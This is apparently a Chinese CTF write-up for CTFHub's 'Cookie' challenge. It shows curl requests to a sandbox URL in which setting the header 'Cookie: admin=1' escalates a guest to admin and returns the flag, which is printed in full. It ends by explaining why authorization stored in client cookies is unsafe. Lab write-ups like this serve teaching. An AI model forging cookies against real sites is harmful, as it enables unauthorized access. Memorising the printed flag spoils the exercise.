

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-6b1f80d3c4b4056e.sandbox.ctfhub.com:10800/index.php |
| Flag | ctfhub{c318fac17c80e0f879b6ce5b} |

## 解题过程

打开靶场首页，页面只有一句 `hello guest, only admin can get flag.`，说明服务端是按“当前访问者是谁”来决定给不给 flag 的，而我默认被认成了 guest。我先在终端不带任何 Cookie 请求了一次 `/index.php`，确认原始回显就是这句 hello guest；再带上 `-H "Cookie: admin=1"` 请求同一地址，服务端就把我当成 admin，直接返回了 flag。中间第一次试的时候命令里带的是同一个 Cookie 头但没拿到内容，重试一次才正常回显，所以截图里能看到“先 hello guest、后拿到 flag”的对比。整个过程没有登录、没有密码，只改了请求头里的一行字符串。

## 关键请求/响应

```http
（1）不带 Cookie：被当成游客
$ curl -s http://challenge-6b1f80d3c4b4056e.sandbox.ctfhub.com:10800/index.php
hello guest, only admin can get flag.

（2）带上自定义 Cookie：被当成 admin
$ curl -s -H "Cookie: admin=1" http://challenge-6b1f80d3c4b4056e.sandbox.ctfhub.com:10800/index.php

GET /index.php HTTP/1.1
Host: challenge-6b1f80d3c4b4056e.sandbox.ctfhub.com:10800
Cookie: admin=1

HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/5.6.40

ctfhub{c318fac17c80e0f879b6ce5b}
```

## 原理与复盘

Cookie 是请求头里的一个字段，浏览器每次请求都会自动带上它，服务端靠它在一堆互相独立的无状态请求里认出“你还是刚才那个人”。本题把权限判断直接压在了客户端可以随便改的 Cookie 上，所以改个值就冒充成了 admin——这正是把权限写在 Cookie 里的风险。真实系统里身份和权限必须放在服务端 Session 里校验，Cookie 只应该当索引用。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
